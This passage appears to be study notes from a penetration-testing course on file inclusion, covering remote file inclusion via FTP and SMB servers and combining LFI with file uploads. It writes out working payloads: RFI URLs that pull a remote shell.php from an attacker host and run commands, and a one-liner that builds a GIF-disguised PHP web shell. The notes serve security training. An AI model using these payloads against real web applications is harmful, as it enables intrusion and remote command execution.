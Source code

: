- FTP:
` sudo python -m pyftpdlib -p 21`
[http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id]

- SMB:
We can snip up an SMB server using Impacket's smbserver.py, which allows anonymous aith.
`impacket-smbserver -smb2support share `

- Exercise:
 Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in:
[http://10.129.218.83/index.php?language=http://10.10.14.109:8000/shell.php&cmd=cat%20/exercise/flag.txt]

# LFI and File Upload:
File funtionalities are ubquitous in most modern web app, as users usually need to configure their profile and usage of the web app by uploading their data.

the File upload Attacks modula cover diffenrent techniques on how to exploit file upload forms anbd funtionalities. For the attack we are going to discuss in this section,
we do not require the file upload form to be vulnerable, by merely allow us to upload files. If the vulnerable funtion ahas code Execute capabilities, then the code within the
file we upload will get executed if we iclude it, regardless of the file extesnion we include it through the LFI vulnerability.
![Section attacks](../Img/LFIandFIleuplaods.png)

- Image Uplaad:
Crafting a malicius image containing PHP web shell code that still looks and works as an image. We'll use an allowed image extension in our file name and should also include the image magic bytes at the beggining of the file content[GIF8].
[echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif]

> [!NOTE]
> We are using GIF in this case since its magic bytes are ez typed, as they are ASCII characters, while other extension have a magin bytes in binary that we would need to URL encoded. This attack would work any allowed image or file type.
